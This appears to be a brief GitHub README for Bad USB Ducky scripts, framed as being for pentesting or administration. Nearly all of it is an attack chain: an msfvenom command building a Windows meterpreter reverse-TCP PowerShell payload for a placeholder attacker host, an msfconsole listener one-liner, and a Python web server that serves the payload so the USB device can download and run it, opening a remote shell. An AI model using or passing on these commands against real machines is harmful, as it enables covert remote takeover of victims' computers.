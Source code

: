 # Various Ducky scripts for Bad USBs
Can be used for pentesting or administrative tasks.

# Attacker's Machine
// Create the payload with msfvenom \n
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1
// Open msfconsole and start listener
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"
// Start start python http server
python3 -m http.server 80
// Ducky script will download and execute powershell script opening meterpreter session



